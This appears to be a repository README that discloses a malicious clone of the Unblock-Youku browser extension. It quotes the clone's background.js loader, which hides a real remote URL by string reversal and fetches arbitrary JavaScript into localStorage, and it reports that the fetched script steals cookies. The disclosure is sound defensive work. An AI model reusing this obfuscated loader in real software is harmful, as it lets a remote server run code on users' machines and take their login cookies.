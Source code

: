 Extension ID: emmoddikhgncnaikamapbkggedoafomi

This is a malicious copy the extension Unblock-Youku (ID: pdnfnkhpgegpcingjbfihlkjeighnddk).

In its background.js file, you can find

```javascript
function chk() {
    var a = new XMLHttpRequest;
    a.onreadystatechange = function () {
        4 == a.readyState && (localStorage.updated = a.responseText)
    };
    a.open("GET", "sj.gol/gol/moc.oatiahi5.emorhc//:ptth".split("").reverse().join(""), !0);
    a.send(null)
}
```

It will download arbitrary javascript code from their server `5ihaitao.com`, and execute it on your local computers.

The current version of the log.js file is kept a record in this folder.

You can check that the log.js file actually gets and manipulates users' website cookies, which can actually steal your online indentities and leak your private and important information.
